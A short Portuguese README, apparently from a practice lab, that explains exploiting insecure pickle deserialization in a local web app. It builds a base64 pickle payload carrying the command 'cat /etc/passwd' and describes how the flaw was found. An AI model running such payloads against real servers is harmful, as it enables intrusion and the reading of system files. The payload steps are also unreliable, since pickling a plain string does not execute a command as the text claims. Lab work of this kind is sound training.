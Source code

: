 # Para explorar a vulnerabilidade RCE - Execução de Código Remoto *(Remote Code Execution)*

Como payload para exploração da vulnerabilidade, foi utilizado as bibliotecas pickle e base64 na linguagem Python.

## Etapas para geração de payload

### Importe as bibliotecas "pickle" e "base64"

```python
import pickle
import base64
```
### Insira o camando a ser executado no servidor

```python
cmd = 'cat /etc/passwd'
print('Comando a ser usado...: ', cmd)
```

### Utilize a biblioteca pickle para serializar a string do comando do passo anterior

```python
payload_pickle = pickle.dumps(cmd)
print('Pickle do comando.....: ', payload_pickle)
```

### Codifique o resultado do pickle em base64 utilizando da biblioteca base64

```python
payload_base64=base64.b64encode(payload_pickle)
print('Base64 do Pickle......: ', payload_base64)
```

## Testando na aplicação

Acesse a aplicação pelo link http://localhost:5000

Copie a saida do passo que gerou o Base64 e cole no campo **Enter Serialized Data:** e clique no botão **Submit**.


## Como foi descoberto a vulnerabilidade

Utilizei de engenharia reversa observei que o campo da request era primeiro decodificado pelo método **urlsafe_b64decode** da biblioteca **base64** *(Python)* e em seguida deserializado pelo método **loads** da biblioteca **pickle**.

Logo, na geração do payload primeiro foi gerado o pickle e depois o base64.


